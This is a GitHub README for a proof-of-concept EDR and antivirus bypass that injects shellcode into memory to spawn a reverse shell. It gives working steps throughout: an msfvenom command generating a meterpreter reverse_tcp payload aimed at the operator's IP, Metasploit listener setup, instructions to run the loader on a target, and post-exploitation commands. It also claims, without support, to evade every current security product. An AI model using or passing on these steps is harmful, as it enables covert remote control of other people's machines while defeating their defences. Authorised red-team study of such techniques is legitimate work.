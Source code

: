 # EDR-Antivirus-Bypass-to-Gain-Shell-Access


This repository contains a **proof-of-concept (PoC)** for bypassing EDR and antivirus solutions using a memory injection technique. The code executes shellcode that spawns a reverse shell, successfully evading detection by various security mechanisms.

---

## Description

This project demonstrates how to bypass EDR and antivirus protection using Windows API functions such as `VirtualAlloc`, `CreateThread`, and `WaitForSingleObject`. The payload is injected directly into the process memory without being detected by security tools, establishing a connection to a remote system for a reverse shell.

> **Disclaimer:** This code is for educational purposes only. Use it responsibly and only in environments where you have explicit permission to test.

---

## Features

- Bypasses standard EDR and antivirus solutions
- Executes shellcode in memory to create a reverse shell
- Utilizes `VirtualAlloc` and `CreateThread` to inject the payload directly into process memory

---

## Requirements

- Windows Operating System (Tested on Windows 11 Pro)
- Kali Linux (For reverse shell listener)
- Visual Studio or any C# compiler

---

## Steps to Compile & Run

### 1. Clone the Repository

```bash
https://github.com/murat-exp/EDR-Antivirus-Bypass-to-Gain-Shell-Access.git
cd EDR-Antivirus-Bypass-Shell-Access
```


### 2. Modify Shellcode

Before compiling, ensure that you modify the shellcode to point to your own IP address and port for the reverse shell. You can generate shellcode using `msfvenom:`
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f csharp
```

Replace the `byte[] buf` section in Program.cs with the shellcode you just generated.


### 3. Compile the Code

Open the project in Visual Studio, or use the following command to compile the code using the .NET SDK:


```bash
csc loader.cs
```

**Alternatively, you can compile in Release mode for better optimization:


```bash
csc -optimize loader.cs
```


### 4. Start a Listener on Kali

On your Kali Linux machine, start a listener to catch the reverse shell. Use the following commands in Metasploit:


```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR_IP>
set LPORT <YOUR_PORT>
run
```


### 5. Execute the Payload

Transfer the compiled .exe file to the Windows machine. You can execute the file manually or use any other method to run the file:


```bash
loader.exe
```


6. Obtain the Shell

Once the payload is executed on the target machine, you should see a reverse shell session open in your Metasploit console. From there, you can interact with the system:



```bash
meterpreter > sysinfo
meterpreter > shell
```


7. Additional Bypass Techniques

To avoid detection by advanced EDR solutions, consider using techniques like process injection, obfuscation, or AMSI bypasses. This PoC can be extended with these methods for more robust evasion.


This POC bypasses all current AV and EDR solutions.  

I will soon share with you the codes I have developed with more advanced methods.






